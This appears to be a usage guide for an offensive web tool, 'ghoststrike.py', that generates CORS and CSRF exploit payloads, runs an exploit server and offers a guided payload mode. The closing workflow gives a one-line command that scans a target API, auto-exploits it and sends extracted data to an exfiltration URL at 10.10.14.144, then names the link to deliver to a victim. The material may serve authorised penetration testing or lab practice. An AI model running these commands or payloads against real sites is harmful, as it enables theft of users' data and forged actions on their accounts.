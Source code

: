 ### Generate Mode

Generate specific exploit payloads:

```bash
python3 ghoststrike.py --generate <attack-type> [options]

Attack Types:
  cors-exfil        CORS arbitrary origin exploitation
  cors-null         CORS null origin exploitation
  cors-wildcard     CORS wildcard exploitation
  csrf-get          CSRF via GET request
  csrf-post         CSRF via POST request
  csrf-bypass       CSRF token bypass via CORS

Options:
  -t, --target URL          Target URL
  -e, --exfil URL           Exfiltration URL
  --element-id ID           HTML element ID to extract
  -p, --params PARAMS       Parameters (key=value,key2=value2)
  -o, --output FILE         Save payload to file
```

### Server Mode

Start built-in exploit server:

```bash
python3 ghoststrike.py --server [options]

Options:
  --host HOST              Server host (default: 0.0.0.0)
  --port PORT              Server port (default: 8000)
  --ssl                    Enable HTTPS
  --cert FILE              SSL certificate file
  --key FILE               SSL key file
```

### Interactive Mode

Guided payload generation:

```bash
python3 ghoststrike.py --interactive
```

---

## Common Workflows

### Workflow 1: Full Automated Exploitation

```bash
# One command: scan → exploit → serve
python3 ghoststrike.py --scan -u https://target.com/api/profile \
  --auto-exploit -e https://10.10.14.144:4443/log \
  --server --ssl --port 4443

# Deliver: https://10.10.14.144:4443/exploit
```
